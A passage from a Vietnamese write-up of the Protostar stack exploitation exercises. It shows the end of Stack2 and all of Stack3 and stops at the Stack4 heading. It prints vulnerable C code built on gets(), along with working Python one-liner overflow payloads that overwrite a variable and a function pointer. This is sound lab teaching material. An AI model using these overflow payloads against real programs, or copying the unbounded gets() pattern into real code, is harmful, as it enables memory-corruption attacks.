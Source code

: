 ```
user@protostar:/opt/protostar/bin$ ./stack2
Try again, you got 0x00000041
user@protostar:/opt/protostar/bin$ 
```
Biến `modified` đã được thay đổi giá trị thành công, vậy tiếp theo là thay đổi giá trị của `modified` thành `0x0d0a0d0a`:
```
user@protostar:/opt/protostar/bin$ export GREENIE=$(python -c "import struct; print('A'*64+struct.pack('I',0x0d0a0d0a)) ")
user@protostar:/opt/protostar/bin$ ./stack2
you have correctly modified the variable
user@protostar:/opt/protostar/bin$ 
```
!Amazing, gudjob em :v
# 4. Stack3  
## Source code  
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
Trong source code ta có thể thấy được bài sẽ sử dụng đến hàm con trỏ `volatile int (*fp)();`, con trỏ này sẽ nhận địa chỉ trỏ tới 1 hàm. Và đề bài yêu cầu flow đến hàm `win()`. Vậy nên điều đầu tiên đó là tìm địa chỉ của `win()`:
```
user@protostar:/opt/protostar/bin$ objdump -d stack3 | grep win
08048424 <win>:
user@protostar:/opt/protostar/bin$ 
```
Việc tiếp theo là overflow vào biến `fp` với giá trị là địa chỉ `win()` đã tìm ra ở trên:
```
user@protostar:/opt/protostar/bin$ python -c "import struct;print ('A'*64+struct.pack('I',0x08048424))" > /tmp/payload_st3
user@protostar:/opt/protostar/bin$ cat /tmp/payload_st3 | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
user@protostar:/opt/protostar/bin$ 
```
# 5. Stack4  